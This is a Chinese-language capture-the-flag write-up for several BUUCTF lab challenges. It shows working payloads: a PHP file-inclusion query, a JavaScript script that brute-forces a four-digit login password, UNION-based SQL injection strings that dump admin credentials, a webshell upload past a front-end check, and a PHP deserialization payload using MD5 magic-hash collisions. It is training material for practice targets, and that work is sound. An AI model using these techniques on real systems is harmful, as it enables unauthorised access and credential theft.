

BUUCFT 题解
文章目录
娱乐性质，玩一玩。
Linux Lab
使用 ssh 连接到靶机即可。
ssh root@address -p portflag.txt 就放在根目录下面。
BUUCFT
打开页面，首先给了一段代码。
<?php
/**
* Created by PhpStorm.
* User: jinzhao
* Date: 2019/7/9
* Time: 7:07 AM
*/
highlight_file(__FILE__);
if(isset($_GET['file'])) {
$str = $_GET['file'];
include $_GET['file'];
}这里的意思是，高亮当前文件，判断是否存在为 file 的 query 参数，如果存在，就加载它。
尝试一下 ?file=flag.txt ，文件不存在；尝试
?file=flag ，页面中显示了 flag 。
暴力破解 1
首先是一个登录页面，查看了一下 HTML 代码，很干净，没有任何其他的东西。尝试写了句 SQL 注入，不行，所以没有注入的口子。

尝试用户名，是 admin 。尝试密码 1234 ，结果报密码错误，密码为四位数字。这里就只能写代码遍历所有四位整数了。因为频繁请求会被 429 ，但慢慢请求又太慢，所以只能遇到一个 429 就等待一下。
function sleep(time) {
return new Promise((resolve) => {
setTimeout(resolve, time);
});
}
(async () => {
for (let i = 1000; i <= 9999; i++) {
const result = await fetch(
"http://26a432d9-687e-4232-a5ae-68052673cfa1.node4.buuoj.cn:81/?username=admin&password=" +
i,
).then((res) => res.text());
console.log(i);
if (!result.startsWith("密码错误")) {
if (result.includes("429")) {
await sleep(500);
i--;
continue;
}
console.log(result);
console.log(i);
break;
}
}
})();跑完后，结果是 6490 。
BUU SQL COURSE 1
看题目是 SQL 注入。
登录没有注入，是个幌子。注入点在获取新闻详情里。
使用 id=1 and 1=1 ，无报错，正常回显，存在注入。
这里使用手动注入，首先要确定 SQL 返回结果的列数，使用
id=1 order by 1 来一个个往后推，到
id=1 order by 3 时结果有错，因此，结果字段是两列。
接下来确定数据库，id=1 union select 1, database() 。
然后确定数据库内有哪些表，id=1 union select 1, group_concat(table_name) from information.tables where table_schema='news'
。
确定有哪些列，id=1 union select 1, group(column_name) from information.columns where table_name='admin'
。
最后拿到 admin
的密码，id=1 union select username,password from admin
登录就可以拿到 flag 了。
关于 information_schema ：
- 猜库：select schema_name from information_schema.schema
- 猜库中的表：select table_name from information_schema.tables where table_shcema=“xxx”
- 猜表中列：select column_name from information_schema.columns where table_name=“xxx”
Upload-Labs-Linux 1
Pass 1
提示说用了前端 JS 检查。因为本身 form 就可以上传文件，而 JS 在这里只是起到了检查的作用，我们直接禁用 JS 即可。当然，我们也可以通过接口请求来绕过，只要不走这个 JS 就行。
我们需要上传一个 webshell ，因为我用的需要上传两个文件，所以就上传了两遍。完成后查看回显地址，找到我们的 webshell 链接。一旦打开，我们就成功骇入了。
执行 cat /flag 即可获得 flag 。
BUU CODE REVIEW 1
启动靶机，打开网页看到代码。
<?php
/**
* Created by PhpStorm.
* User: jinzhao
* Date: 2019/10/6
* Time: 8:04 PM
*/
highlight_file(__FILE__);
class BUU {
public $correct = "";
public $input = "";
public function __destruct() {
try {
$this->correct = base64_encode(uniqid());
if($this->correct === $this->input) {
echo file_get_contents("/flag");
}
} catch (Exception $e) {
}
}
}
if($_GET['pleaseget'] === '1') {
if($_POST['pleasepost'] === '2') {
if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
unserialize($_POST['obj']);
}
}
}pleaseget 和 pleasepost 没有难度。MD5
值相当但值不相等利用的是 php ==
的漏洞，如果两个字符串经过哈希后都以 0E 开头，PHP
会把它们解释为 0 。比如，QNKCDZO 和
240610708 。
剩下的序列化是，由于 uniqid()
得出的值以微秒计，所以不能用值生成来做。这里比较巧妙的采用了引用。
<?php
/**
* Created by PhpStorm.
* User: jinzhao
* Date: 2019/10/6
* Time: 8:04 PM
*/
class BUU {
public $correct = "";
public $input = "";
public function __destruct() {
try {
$this->correct = base64_encode(uniqid());
if($this->correct === $this->input) {
echo file_get_contents("/flag");
}
} catch (Exception $e) {
}
}
}
$a = new BUU();
$a -> input = &$a -> correct;
echo serialize($a);结果是：
O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}然后把这些值往 postman 里填就行，记得是 POST 。
文章作者 bigshans
上次更新 2023-07-23